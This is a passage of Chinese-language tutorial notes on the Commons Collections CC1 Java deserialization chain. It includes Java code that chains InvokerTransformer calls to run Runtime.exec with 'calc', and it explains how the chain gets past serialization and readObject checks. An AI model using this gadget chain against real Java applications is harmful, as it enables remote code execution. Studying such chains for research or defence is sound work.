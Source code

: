 共同点：

- 格式都为 `new InvokerTransformer().transform()`
- 后一个 `transform()` 方法里的参数都是前一个的结果

为什么这么写：

**参照[命令执行的关键]**



1-2. 或者写成这种：

```java
Transformer[] transformers = new Transformer[]{
        new InvokerTransformer("getMethod"
                , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke"
                , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec"
                , new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

最后和其他未改变的部分进行拼接,详情代码参考**第一个问题.java**



##### 第一个问题为什么这样就解决了？

`Runtime` 是不能序列化的，但是 `Runtime.class` 是可以序列化的



#### 2.第二个问题

需要 **注解类型的参数**传入，且不为空。否则第一个If进不去：

sun.reflect.annotation.AnnotationInvocationHandler.readObject：

![](.\pic\2-3-2-1.png)
